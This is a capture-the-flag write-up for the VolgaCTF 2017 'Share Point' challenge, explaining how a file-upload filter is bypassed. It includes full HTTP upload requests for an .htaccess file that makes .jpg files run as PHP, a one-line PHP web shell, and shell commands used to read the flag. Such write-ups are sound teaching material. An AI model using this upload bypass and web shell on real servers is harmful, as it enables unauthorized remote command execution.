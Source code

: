 ```yaml
---
date: 2017-03-28
title: 'VolgaCTF - Share Point writeup'
template: post
slug: volgactf-share-point-writeup
categories:
 - CTF Writeup
tags:
 - CTF Writeup
---
```


```
Share Point

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru
```


The challenge begun by signing in to the control panel by simply entering random account details. Once logged in you had the ability to upload files and share them with an other user. Since the site only had one functionality, uploading files, I assumed the goal had to be to upload a web shell and find the flag on the file system.

Uploading files with a `.php` extension got rejected. I tried some tricks when trying to upload my `shell.php`:

* Chaning the Content Type to `image/jpeg`.
* Injecting null values in the filename `shell.php\00.gif`.
* Uploading a file with the magic headers of a gif file.

Next I tried to upload an `.htaccess` file with the following contents `AddType application/x-httpd-php .jpg`, this would cause `.jpg` files to executed as `.php` files, and it worked!

The following code snippet shows the HTTP POST request from Burp Suite when uploading the `.htaccess` file and the following `shell.php.jpg`. 
```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 271
Content-Type: multipart/form-data; boundary=---------------------------1620217569904038223723611436
Cookie: PHPSESSID=gsl3b673of0kbvaav8am0vs690
Connection: close

-----------------------------1620217569904038223723611436
Content-Disposition: form-data; name="userFile"; filename=".htaccess"
Content-Type: application/octet-stream

AddType application/x-httpd-php .jpg

-----------------------------1620217569904038223723611436--
```


```
POST /upload.php HTTP/1.1
Host: share-point.quals.2017.volgactf.ru
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Referer: http://share-point.quals.2017.volgactf.ru/upload.php
Content-Length: 256
Content-Type: multipart/form-data; boundary=---------------------------5375118911646132755521388984
Cookie: PHPSESSID=gsl3b673of0kbvaav8am0vs690
Connection: close

-----------------------------5375118911646132755521388984
Content-Disposition: form-data; name="userFile"; filename="shell.php.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>

-----------------------------5375118911646132755521388984--
```

Once we have uploaded the shell, we can start looking for the flag on the file system.

```
http://share-point.quals.2017.volgactf.ru/files/Smacker1/shell.php.jpg?cmd=ls -lah

total 24K
drwxr-xr-x   2 www-data www-data 4.0K Mar 27 00:05 .
drwxr-xr-x 252 www-data www-data  12K Mar 27 00:04 ..
-rw-r--r--   1 www-data www-data   37 Mar 27 00:04 .htaccess
-rw-r--r--   1 www-data www-data   31 Mar 27 00:05 shell.php.jpg
```

By pure luck I checked the `/opt/` folder and found `flag.txt`. Otherwise I would have simply searched for "flag".

```
http://share-point.quals.2017.volgactf.ru/files/shell.php.jpg?cmd=cat /opt/flag.txt
VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}
```




